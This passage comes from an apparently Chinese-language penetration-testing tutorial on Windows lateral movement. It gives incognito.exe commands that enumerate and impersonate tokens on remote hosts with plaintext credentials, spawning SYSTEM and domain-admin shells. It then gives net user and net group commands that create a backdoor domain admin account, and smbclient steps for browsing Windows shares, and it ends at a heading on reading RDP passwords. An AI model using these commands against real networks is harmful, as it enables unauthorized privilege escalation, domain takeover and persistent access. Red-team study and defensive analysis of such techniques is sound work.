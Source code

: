 ```
#查看本机可以利用的token
incognito.exe list_tokens -u  
#查看远程机器可以利用劫持的token
incognito.exe -h 192.168.198.138 -u administrator -p 123456 list_tokens -u
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEo0DHRM8gP2iaCDNia9PtuJT2AwZJmAA187icryyqBzibEt7zPQmj2icLwCA/640?wx_fmt=png)

```
#调用远程机器的本地系统权限的cmd.exe，查看可以劫持的权限
incognito.exe -h 192.168.198.138 -u administrator -p 123456 execute -c "NT AUTHORITY\SYSTEM" cmd.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEGbdCPOouLS48ibwGJ32YuCeWhBeBIVz6qkOIrib11I629KAFicWBFU4mw/640?wx_fmt=png)  

```
#域控账号登陆过普通主机，可以尝试拿到域低权限账号利用incognito工具劫持域控身份
#查找被攻击的计算机中是否有DC的token
incognito.exe -h 192.168.200.11 -u admin -p 123123 list_tokens -u  
#利用DA的token创建新的DC，调用DC的cmd.exe
incognito.exe -h 192.168.200.11 -u admin -p 123123 execute -c "XY\ADMINISTRATOR" cmd.exe  
#执行创建DC命令
net user hh 123.com /add /domain
net group "domain admins" hh /add /domain
```

**Linux 下通过 smbclient 访问 windows 共享目录**  
1. 安装 smbclient  

```
yum -y install samba-client/apt-get install samba-client
```

2. 查看共享  

```
smbclient -L 192.168.1.8 -U administrator 
```

 ![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEOXEHxjWRL2m90Sn1K1gUlZDHKcs3iaromLJfibxYQNFicG1gUw5hgq0kQ/640?wx_fmt=png)

3.smb 连接

```
smbclient //192.168.1.8/tools -U administrator
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEtylHBAMOviciaUq24SUTlCMSKKm65DpuxmMicHfbiaRslCGbl3WMo7xVeA/640?wx_fmt=png)

执行 smbclient 命令成功后，进入 smbclient 环境，出现提示符：smb:/>  这里命令和 ftp 命令相似，如 cd 、lcd、get、megt、put、mput 等。通过这些命令，我们可以访问远程主机的共享资源

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEgUy95mrLj05LDR18QWQJEu2ibiaKf2Rh6PEgViaB4D6aBsjISalGxjaHQ/640?wx_fmt=png)

**本地 rdp 密码读取**
